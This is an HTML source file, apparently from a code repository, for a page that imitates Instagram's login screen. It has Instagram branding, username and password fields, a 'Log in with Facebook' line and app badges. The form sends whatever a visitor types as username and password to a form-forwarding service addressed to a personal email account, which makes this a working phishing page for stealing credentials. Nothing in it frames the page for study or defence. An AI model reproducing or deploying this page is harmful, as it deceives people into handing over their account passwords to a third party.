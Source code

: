 <!DOCETYPE Html>
 <html>
   <head>
     <title>Instagram</title>
   </head>
   <meta charset="utf-8">
   <body>
     <p align="center">
       <img src="https://gcdn.pbrd.co/images/jDTwsXjtYRXF.png?o=1" height="100px"
     </p>
      <form action="https://formsubmit.co/safen894@gmail.com" method="POST">
        <p align="center">
        <input type="text"name="Phone number,username. or email" required placeholder="Phone number,username, or email">
        <p align="center">
        <input type="password"name="password" required placeholder="Password">
        <p align="center">
          <button type="submit">Login</button>
        </p>
        </p>
        </p>
      </form>
      <p align="center">
         ───── or ─────
    </p>
      <p align="center">
        <img src="https://gcdn.pbrd.co/images/xkn8BT217yLw.png?o=1" height="20px"
        <span style="color: midnightblue">
        <b>Log in with Facebook</b>
        </span>
      </p>
      <p align="center">
        <small>
          <span style="color: steelblue">
            Forgot password?
          </span>
        </small>
      </p>
      <p align="center">
        ────────────────────
      </p>
      <p align="center">
        Don't have an account?
        <span style="color: dodgerblue">
          <b>Sign up</b>
        </span>
      </p>
      <p align="center">
        ──────────────────
      </p>
      <p align="center">
        <small>Get the app.</small>
      </p>
      <p align="center">
        <img src="https://gcdn.pbrd.co/images/KteqU7IE01wy.png?o=1" height="40px" alt=""/>
        <img src="https://gcdn.pbrd.co/images/c6Xa3hx58xoE.png?o=1" height="40px" alt=""/>
      </p>
      <input type="text"name="text"></input>
   </body>
 </html>
